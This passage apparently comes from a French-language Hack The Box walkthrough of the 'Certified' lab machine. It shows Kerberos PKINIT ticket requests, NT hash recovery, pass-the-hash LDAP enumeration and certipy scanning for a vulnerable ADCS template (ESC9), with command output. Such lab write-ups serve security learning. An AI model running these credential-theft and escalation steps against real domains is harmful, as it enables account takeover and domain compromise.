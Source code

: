 $ ./gettgtpkinit.py certified.htb/ca_operator -cert-pfx EkDY6hor.pfx -pfx-pass WlZFTKpVBy3BzPXcgzCX ca_operator.ccache
2025-03-14 03:11:26,295 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 03:11:26,333 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 03:11:50,020 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 03:11:50,020 minikerberos INFO     91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
INFO:minikerberos:91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
2025-03-14 03:11:50,023 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

$ ./getnthash.py CERTIFIED.HTB/ca_operator -key 91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
b<...>2
{{< /highlight >}}

### ESC9, ADCS template abuse

Par le nom de la machine et en remarquant que ADCS est actif sur la machine, nous pouvons clairement déduire que la partie root va concerner les certificats ADCS.
{{< highlight go "hl_lines=1" >}}
$ nxc ldap 10.10.11.41 -u management_svc -H a<...>4 -M adcs
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\management_svc:a<...>4
ADCS        10.10.11.41     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.41     389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.10.11.41     389    DC01             Found CN: certified-DC01-CA
{{< /highlight >}}

En utilisant certipy-ad, nous pouvons trouver une vulnérabilité sur le template `CertifiedAuthentication`.
{{< highlight go "hl_lines=1 17" >}}
$ certipy-ad find -u 'ca_operator@certified.htb' -hashes b<...>2 -dc-ip '10.10.11.41' -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250313205721_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250313205721_Certipy.txt'
[*] Saved JSON output to '20250313205721_Certipy.json'
